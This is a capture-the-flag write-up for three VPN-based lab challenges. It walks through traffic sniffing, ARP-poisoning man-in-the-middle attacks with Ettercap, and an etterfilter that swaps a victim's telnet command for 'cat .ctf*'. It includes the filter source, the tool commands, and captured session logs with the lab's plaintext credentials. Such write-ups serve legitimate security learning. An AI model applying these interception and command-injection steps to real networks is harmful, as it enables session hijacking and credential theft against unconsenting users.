



## Stick House (networj Exploit, 50)

This was the 4th challennge in the network Explot category by [@nategraf](https://github.com/nategraf) and this was my first time working on any challenges like this, I feel it is important to mention that because if I was able to get 5 out of the 6 network exploits I feel like any beginner is fully capable as well.

In order to solve this challenge the user was provided with a vpn configuration and instructions on how to connect, which was super helpful for novices such as myself:



Before I get into the details of how I solved this one I will quickly go over the first two network exploit challenges as they serve as a good foundation for how I got started on this challenge.

The first challenge was Stop and Listen (note the screen shot above). Basically this was just making sure you can follow instructions and connect to the VPN.
In order to solve this you will need wireshark and openvpn
```bash
sudo apt-get install openvpn openvpn
```
1. Download the [1st challenge OPENVPN config](listen.ovpn)
2. Run the following commads to set up the connection
```bash
sudo openvpn --config segal.ovpn
sudo ip link set tap0 up
sudo udhcpc -i tap0
```
  * Make a note of the output of the last command as that will give you leased IP address on the VPN

3. Now that we are connected to the vpn, all we have to do to get the flag is listen to the network traffic, for this we use wireshark. Open wireshark as root, and start listening to traffic on the tap0 interface (should show up as one of the network options)
  * Once you are listening there will be a lot of UDP traffic, basically an actual conversation is happening, I think on repeat. Anyways after a while (like 30 seconds or a min) you can then go through the udp conversations to find the flag, or if you know what the key format is (gigem{some_string}) you can search in wireshark for packet byes, string "gigem". Or you can do the same thing in bash if you save the [pcap file](baby1.pcapng)
```bash
strings baby1.pcapng | grep gigem
```
And that will output the string: `Simple Bedevere. It's gigem{ekky_ekke_ekke_zoo_boing_patang}`
And that is how you solve the first challenge, simple (don't forget to close the vpn connection when you are done).

The second challenge builds off the first



Based off the name, [the youtube video](https://www.youtube.com/watch?v=DohRa9lsx0Q), and the help text it is fairly obvious we get to do a [Man in the Middle Attack](https://en.wikipedia.org/wiki/Man-in-the-middle_attack) (MitM).

Now as I mentioned this was my first time working on this sort of challenge, and I had no idea how to get started on a man in the middle attack, but the help text from the first challenge was a good starting point, it recommended using [Ettercap](http://www.ettercap-project.org/ettercap/), which happens to be a nice util for man in the middle attacks.
so I went ahead and installed that:
```Sudo apt-get install ettercap-graphical```

And I also downloaded the [openvpn config](middle.ovpn) for this challenge.

I followed the same steps as the first challenge, connecting to the vpn, getting my lease, trying to view traffic in wireshark, but there was no traffic being captured.

Next I figured I would try to see what devices were on the network using Nmap
In order to use nmap properly you will need to know your [netmask](https://www.computerhope.com/jargon/n/netmask.htm), which you can get by running `ifconfig` and looking at the tap0 interface, in our case that happens to be 255.255.255.240, you will also need your subnet which you can get from the same command, and in my case it was 172.16.5.0 (take my ip: 172.16.5.145 and replaced the 145 with the 0) which means we can run nmap with this comand
```bash
nmap 172.16.5.145/28
```
If you are wondering what that `/28` is check [this](https://www.aelius.com/njh/subnet_sheet.html) out.

That will take about 30 or so seconds to complete....and bring back 0 out of 16 hosts...either that means I did something wrong, or nmap can't find any hosts available on the network. I just assumed I was flawless and figured it was time to look into ettercap

After some googling I had a decent idea of what I wanted to do. A MitM attack using [ARP poisoning](https://www.cybrary.it/0p3n/man-in-the-middle-attack-explained/). This should allow us to intercept the traffic going from computer A to computer B, and vice versa.

Make sure you are still connected to the vpn, and viewing traffic in wireshark (feel free to clear anything that may have shown up and start fresh) and fire up ettercap in the gui mode, because I am pretty basic, possibly with sudo
```bash
sudo ettercap -g
```
* Once Ettercap opens click on sniff
* Then unified sniffing, select Tap0 (the vpn interface)
* click Hosts and then "scan for hosts"
  *you should notice some wireshark activity (broadcase ARP stuff)and in this case ettercap will say three hosts added to the host list
* Click on Hosts again and this time "Host List" and you will see the live hosts on the network
* Now click on each host and add it to target 1 and target 2
  * This should allow us to view every packet sent, in every direction between all three hosts
  
* Now click on Mitm at the top of ettercap and click on "ARP Poisoning", click "Sniff remote connections" and hit ok
  *you should see wireshark start to log a lot of traffic
* Just listen for a little bit till you have a nice [capture file](middle.pcapng)
* You want to pay attention to the [UDP conversation](middleflag.txt)
* In that convo you can see the flag is: gigem{i_gOT_the_FeELIN_SoMEThinG_ainT_rIGHt} ...and don't get it confused with the dozens of false flags

cool, so now we can stop the MitM attack and close the vpn as we are ready for Sticks (or straw or brick, as you solve them all the same way...woops)

so with Stick house we are given the prompt:
> The second little piggy was a little more industrious, and decided to secure his
>server by making sure it only responded to him.
>I guess he never realized that wolves can lie.
And another [openvon config](sticks.ovpn)

So we need to capture some network traffic, lets do the same thing we did with the last challenge, using MitM arp poisoning (as once again we have no visable network traffic)
let this run for a while till you get a nice sized [capture file](listen1.pcapng), you will notice this capture has telnet and tcp traffic as opposed to UDP traffic. 

once you have collected everything you need you can follow a tcp stream and see a file like this:

>..... ..#..'..... ..#..'..............!.................!......Ubuntu 16.04.3 LTS
4d437449cdb8 login: ...piggy
Password: I8elieve1CanFly

Last login: Mon Feb 26 22:53:38 UTC 2018 on pts/1
Welcome to Ubuntu 16.04.3 LTS (GNU/Linux 4.4.0-1052-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
piggy@4d437449cdb8:~$ ls -la 
ls -la 
total 52
drwxr-xr-x 1 piggy piggy  4096 Feb 22 00:14 .
drwxr-xr-x 1 root  root   4096 Feb 16 20:57 ..
-rw------- 1 piggy piggy 19784 Feb 26 22:54 .bash_history
-rw-r--r-- 1 piggy piggy   220 Aug 31  2015 .bash_logout
-rw-r--r-- 1 piggy piggy  3771 Aug 31  2015 .bashrc
drwx------ 2 piggy piggy  4096 Feb 22 00:10 .cache
-rw-r--r-- 1 root  root     51 Feb 16 20:57 .ctf_flag
-rw-r--r-- 1 piggy piggy   655 May 16  2017 .profile
drwxr-xr-x 6 root  root   4096 Feb 16 20:57 mini-ipam-driver
piggy@4d437449cdb8:~$ cd mini-ipam-driver
cd mini-ipam-driver
piggy@4d437449cdb8:~/mini-ipam-driver$ ls -la 
ls -la 
total 44
drwxr-xr-x 6 root  root  4096 Feb 16 20:57 .
drwxr-xr-x 1 piggy piggy 4096 Feb 22 00:14 ..
drwxr-xr-x 8 root  root  4096 Feb 16 20:57 .git
-rw-r--r-- 1 root  root   218 Feb 16 20:57 .gitignore
-rw-r--r-- 1 root  root  1058 Feb 16 20:57 LICENSE
-rw-r--r-- 1 root  root  4602 Feb 16 20:57 README.md
drwxr-xr-x 2 root  root  4096 Feb 16 20:57 allocator
-rwxr-xr-x 1 root  root   342 Feb 16 20:57 build.sh
drwxr-xr-x 2 root  root  4096 Feb 16 20:57 bytop
drwxr-xr-x 2 root  root  4096 Feb 16 20:57 driver
piggy@4d437449cdb8:~/mini-ipam-driver$ cd ..
cd ..
piggy@4d437449cdb8:~$ ls -la 
ls -la 
total 52
drwxr-xr-x 1 piggy piggy  4096 Feb 22 00:14 .
drwxr-xr-x 1 root  root   4096 Feb 16 20:57 ..
-rw------- 1 piggy piggy 19784 Feb 26 22:54 .bash_history
-rw-r--r-- 1 piggy piggy   220 Aug 31  2015 .bash_logout
-rw-r--r-- 1 piggy piggy  3771 Aug 31  2015 .bashrc
drwx------ 2 piggy piggy  4096 Feb 22 00:10 .cache
-rw-r--r-- 1 root  root     51 Feb 16 20:57 .ctf_flag
-rw-r--r-- 1 piggy piggy   655 May 16  2017 .profile
drwxr-xr-x 6 root  root   4096 Feb 16 20:57 mini-ipam-driver
piggy@4d437449cdb8:~$ cd mini-ipam-driver
cd mini-ipam-driver
piggy@4d437449cdb8:~/mini-ipam-driver$ ls -la 
ls -la 
total 44
drwxr-xr-x 6 root  root  4096 Feb 16 20:57 .
drwxr-xr-x 1 piggy piggy 4096 Feb 22 00:14 ..
drwxr-xr-x 8 root  root  4096 Feb 16 20:57 .git
-rw-r--r-- 1 root  root   218 Feb 16 20:57 .gitignore
-rw-r--r-- 1 root  root  1058 Feb 16 20:57 LICENSE
-rw-r--r-- 1 root  root  4602 Feb 16 20:57 README.md
drwxr-xr-x 2 root  root  4096 Feb 16 20:57 allocator
-rwxr-xr-x 1 root  root   342 Feb 16 20:57 build.sh
...
...
...

If you are anything like me (i.e incredibly dumb) you will see
>4d437449cdb8 login: ...piggy
>Password: I8elieve1CanFly

and spend the next four hours trying to find someway to extract a FQDN and ssh into a box...yeah thats not what we want to do.

Instead (and this took way to long to figure out) we can use ARP poisening to change the data that is sent.

So how can we do that? we use [filters](http://lmgtfy.com/?q=ettercap+filters) in ettercap.

there are some decent [examples](https://www.safaribooksonline.com/library/view/security-power-tools/9780596009632/ch04s05.html) out there. using that link as a referance and trial and error i eneded up first making a script that looked similar to this:
```c
# owned.filter

if (ip.proto == TCP && tcp.src = 34542) {
 DATA.data = "cat .ctf_flag";
 msg("data replaced\n");
}
```

My attmept being that instead of sending any tcp commands such as that first "ls -la" we would replace it with cat .ctf_flag .
That did not work, turns out the source port was changing between MitM attacks, so i dended up having to do tcp.src != 23 as the destination port was always the same.

But also replaceing everypacket heading to that destination was casuing some issues, and replacing just the "ls -la" commands was also creating issues as my cat command was to long (maybe that was the cause, i didn't look into it to much), so i decided to replace the longest command that was being used in the correct direcotry "cd mini-ipam-driver"

eventually i ended up with this filter
```c
# owned.filter

if (ip.proto == TCP && tcp.src != 23 && search(DATA.data, "cd mini-ipam-driver")) {
 DATA.data = "cat .ctf*\n";
 msg("data replaced\n");
}
```

save that as owned.filter (you know so you can feel like a hacker) and then compile it with this command
`etterfilter owned.filter -o owned.ef` , notting that is etterfilter not ettercap, make sure there were no errors (don't forget your semi colons :/ )

Then back in ettercap, if you haven't stop the current Mitm attack. clear what ever you have in wireshark, and start capturing traffic again.

Start unified sniffing, get your hosts, and add your targets, then click on filters, load filter, and naviagte to wherever you have owned.ef (the output file form compiling the filter) and add it. then start your Man in the middle attack how we have been.

if things have worked correctly after 30 seconds, or a min or so, you will see a msg in the ettercap output field "data replaced"

once you see that go to the [wireshark pcap file](listen2.pcapng), find the tcp stream you want, follow the [conversation](tcpstream2.txt)

and if things are going well for you you should see somehting similar to this:
>..... ..#..'..... ..#..'..............!.................!......Ubuntu 16.04.3 LTS
4d437449cdb8 login: ...piggy
Password: I8elieve1CanFly

Last login: Mon Feb 26 23:00:52 UTC 2018 on pts/0
Welcome to Ubuntu 16.04.3 LTS (GNU/Linux 4.4.0-1052-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
piggy@4d437449cdb8:~$ ls -la 
ls -la 
total 52
drwxr-xr-x 1 piggy piggy  4096 Feb 22 00:14 .
drwxr-xr-x 1 root  root   4096 Feb 16 20:57 ..
-rw------- 1 piggy piggy 19779 Feb 26 23:01 .bash_history
-rw-r--r-- 1 piggy piggy   220 Aug 31  2015 .bash_logout
-rw-r--r-- 1 piggy piggy  3771 Aug 31  2015 .bashrc
drwx------ 2 piggy piggy  4096 Feb 22 00:10 .cache
-rw-r--r-- 1 root  root     51 Feb 16 20:57 .ctf_flag
-rw-r--r-- 1 piggy piggy   655 May 16  2017 .profile
drwxr-xr-x 6 root  root   4096 Feb 16 20:57 mini-ipam-driver
piggy@4d437449cdb8:~$ cd mini-ipam-driver
cat .ctf*
gigem{trust_on_the_internet_is_a_way_to_get_eaten}
piggy@4d437449cdb8:~$ am-driver
-bash: am-driver: command not found
piggy@4d437449cdb8:~$ ls -la 
exit

And there is your flag: gigem{trust_on_the_internet_is_a_way_to_get_eaten}

You can see that the rest of the cd mini-ipam-driver command still exists so i guess that means the command in the filter: DATA.data = "cat .ctf*\n"; doesn't completely overwrite all data that is there...maybe idk all the details, but flag aquired.

And as i said i was able to do straw house and brick house the exact same way, i just did a different search in my filter.
